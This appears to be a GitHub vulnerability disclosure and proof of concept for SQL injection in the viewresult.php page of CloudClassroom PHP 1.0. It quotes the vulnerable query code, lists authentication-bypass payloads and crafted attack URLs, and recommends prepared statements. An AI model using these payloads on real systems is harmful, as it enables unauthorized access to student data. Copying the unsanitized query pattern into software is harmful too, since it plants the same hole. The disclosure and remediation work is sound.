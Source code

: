 # Cloud-Classroom-PHP-1.0---Poc2


Presentation: SQL Injection Bypass Authentication in viewresult.php
Security vulnerability:
SQL Injection - Authentication Bypass

Vulnerability Type: Injection

Affected Component: viewresult.php page - parameter seno via POST

Software: CloudClassroom PHP Project

Version: 1.0 (discontinued)

Business Area: Education / e-Learning Platforms

Description of the issue: The viewresult.php page takes a GET parameter seno which is used directly in an SQL query without any sanitization or parameterization:

$seno = $_GET['seno'];
$sql = "SELECT * FROM result WHERE Eno='$seno'";
This allows attackers to inject SQL code in the seno parameter, bypassing authentication or any authorization logic.

Impact: 

Allows attacker to bypass authentication or filters by injecting always-true conditions.

Can return all rows in the result table regardless of the enrollment number.

May expose sensitive data such as student results or other protected information.

Steps to reproduce: Access the page with a crafted URL like:

http://target/viewresult.php?seno=' OR '1'='1
This will transform the query into:

SELECT * FROM result WHERE Eno='' OR '1'='1'
Which returns all results, bypassing any filtering by enrollment number.

Example payloads for authentication bypass:
Payload	Explanation
' OR '1'='1	Always true condition, returns all rows
' OR 1=1 -- -	Comments out rest of query, returns all rows
anything' OR 'x'='x	Bypass with always true condition

Example full URL for bypass:

http://target/viewresult.php?seno=' OR '1'='1
Or
http://target/viewresult.php?seno=' OR 1=1 -- -

Severity: High - bypasses any enrollment-based filtering, potentially exposing sensitive student data.

Recommended Fix: Use prepared statements with bound parameters to prevent injection.

Validate and sanitize all user input.

Use least privilege on DB user.

References:
CWE-89: SQL Injection
OWASP SQL Injection Prevention Cheat Sheet


SQL-Injection Bypass-Authentication

Payload: 1' or 1=1-- -'

<img width="1345" height="416" alt="image" src="https://github.com/user-attachments/assets/fd7aa3cc-f0fd-46d9-8f51-ed689c3d6204" />

Full-path disclosure

<img width="1417" height="470" alt="image" src="https://github.com/user-attachments/assets/b5a339a0-0930-4900-ad74-d55a97f93914" />


<img width="1330" height="269" alt="image" src="https://github.com/user-attachments/assets/97d8405e-0830-4ee6-81e6-9e9557b082a8" />
